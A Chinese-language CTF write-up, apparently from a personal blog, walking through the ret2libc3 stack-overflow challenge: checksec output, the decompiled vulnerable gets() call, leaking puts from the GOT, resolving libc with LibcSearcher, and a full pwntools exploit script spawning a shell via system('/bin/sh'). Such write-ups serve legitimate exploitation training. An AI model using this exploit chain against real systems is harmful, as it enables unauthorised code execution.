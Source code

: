 # Pwn-ROP-ret2libc-高级


这里以 bamboofox 中的 ret2libc3 为例

点击下载: [ret2libc3](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc3/ret2libc3)

在例 2 的基础上，**再次将 system 函数的地址去掉**。此时，我们需要同时找到 system 函数地址与 /bin/sh 字符串的地址。首先，查看安全保护

```
➜  ret2libc3 checksec ret2libc3
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序仍旧开启了堆栈不可执行保护。进而查看源码，发现程序的 bug 仍然是栈溢出

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```

那么我们如何得到 system 函数的地址呢？这里就主要利用了两个知识点

- system 函数属于 **libc**，而 libc.so 动态链接库中的函数**之间相对偏移是固定的**。
- 即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的 12 位并不会发生改变。而 libc 在 github 上有人进行收集，如下
- https://github.com/niklasb/libc-database

所以如果我们知道 libc 中某个函数的地址，那么我们就可以确定该程序利用的 libc。进而我们就可以知道 system 函数的地址。

那么如何得到 libc 中的某个函数的地址呢？我们一般常用的方法是采用 got 表泄露，即输出某个函数对应的 got 表项的内容。**当然，由于 libc 的延迟绑定机制，我们需要泄漏已经执行过的函数的地址。**

我们自然可以根据上面的步骤先得到 libc，之后在程序中查询偏移，然后再次获取 system 地址，但这样手工操作次数太多，有点麻烦，这里给出一个 libc 的利用工具，具体细节请参考 readme

- https://github.com/lieanu/LibcSearcher

此外，在得到 libc 之后，其实 libc 中也是有 /bin/sh 字符串的，所以我们可以一起获得 /bin/sh 字符串的地址。

这里的思路是，通过puts打印出自己的got地址。因为打印的时候已经执行过一遍puts了，所以此时got中肯定存在puts的真实地址。

```python
puts_plt = elf.plt['puts']
start = 0x080484D0
puts_got = elf.got['puts']

payload1 = b'a' * 112 + p32(puts_plt) + p32(start) + p32(puts_got)
r.sendlineafter('!?',payload1)
```

> PS：这里的start地址实际上是_start函数的地址。这个函数可以认为是程序的起点。当然这里使用libc_start_main也是可以的。只要能让程序重新执行即可

- 泄露 puts 地址
- 获取 libc 版本
- 获取libc基址（puts的真实地址减去puts的Libc地址）
- 获取 system 地址与 /bin/sh 的地址（system的libc地址加上libc基址）
- 再次执行源程序
- 触发栈溢出执行 system(‘/bin/sh’)

exp 如下：

```python
from pwn import *
from LibcSearcher import LibcSearcher

context(arch= 'i386', os = 'linux', log_level = 'debug')
elf = ELF('./ret2libc3')
r = process('./ret2libc3')

puts_plt = elf.plt['puts']
start = 0x080484D0
puts_got = elf.got['puts']

payload1 = b'a' * 112 + p32(puts_plt) + p32(start) + p32(puts_got)
r.sendlineafter('!?',payload1)

puts_addr = u32(r.recv(4))
libc = LibcSearcher("puts",puts_addr)
libcbase_addr = puts_addr - libc.dump('puts')

system_libc = libcbase_addr + libc.dump('system')
str_bin_sh = libcbase_addr + libc.dump('str_bin_sh')

payload2 = b'a' * 112 + p32(system_libc) + b'b' * 4 + p32(str_bin_sh)
r.sendlineafter('!?',payload2)

r.interactive()
```



---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/09/pwn-rop-ret2libc-%E9%AB%98%E7%BA%A7/  


